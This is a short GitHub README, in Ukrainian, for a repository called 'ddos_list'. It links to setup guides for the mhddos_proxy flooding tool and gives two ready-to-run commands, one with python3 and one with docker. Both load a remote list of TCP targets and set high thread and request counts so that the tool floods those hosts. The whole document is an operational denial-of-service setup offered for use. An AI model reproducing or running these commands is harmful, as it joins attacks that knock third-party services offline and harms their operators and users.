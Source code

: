 # ddos_list
Інтструкції:
1) https://ddosukraine.com.ua/instruction/
2) https://telegra.ph/mhddos-proxy-install-on-Linux-with-terminal-03-31

Команди:

python3 runner.py  -c https://raw.githubusercontent.com/olamor/ddos_list/main/tcp_l4_all.lst -t 1000 -p 360 --rpc 1000 --debug

docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest -c https://raw.githubusercontent.com/olamor/ddos_list/main/tcp_l4_all.lst -t 1000 -p 360 --rpc 1000 --debug
